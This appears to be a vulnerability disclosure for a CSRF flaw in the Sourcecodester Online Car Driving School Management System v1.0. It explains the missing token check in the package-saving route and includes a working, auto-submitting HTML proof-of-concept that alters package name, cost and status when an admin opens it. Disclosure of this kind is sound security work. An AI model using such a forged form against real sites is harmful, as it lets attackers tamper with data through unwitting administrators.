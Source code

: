 ### CSRF vulnerability exists in Sourcecodester Online Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route：/cdsms/classes/Master.php?f=save_package

injection parameter:$_POST['description']、$_POST['name']、$_POST['cost']、$_POST['status'] and so on

#### 1.Vulnerability analysis

As shown in the figure below, in **admin/packages/manag_package.php**, after the front-end sends the modified price data packet through the form, there is a lack of token verification mechanism, and the back-end **Master.php** is directly spliced into the SQL update statement, resulting in a CSRF vulnerability. We can change client user data by constructing malicious request packets.

![image-20240725221332203](assets/image-20240725221332203.png)

![image-20240725221439506](assets/image-20240725221439506.png)

#### 2.Vulnerability verification and exploit

First, for the convenience of testing, you need to manually create a test target, name it Test, and capture the package to obtain the id.

![image-20240725220850853](assets/image-20240725220850853.png)

![image-20240725221016349](assets/image-20240725221016349.png)

Construct the following POC. Note that the id value in the POC needs to be changed to the id obtained in the previous step. Then save it as an HTML file, and the vulnerability can be triggered after the admin user clicks it.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/cdsms/classes/Master.php?f=save_package" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="id" value="117" />
      <input type="hidden" name="name" value="Test" />
      <input type="hidden" name="description" value="csrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrfcsrf" />
      <input type="hidden" name="training&#95;duration" value="123" />
      <input type="hidden" name="cost" value="120" />
      <input type="hidden" name="status" value="0" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Click to view the properties of the package has been maliciously modified.

![image-20240725221936714](assets/image-20240725221936714.png)

![image-20240725222008574](assets/image-20240725222008574.png)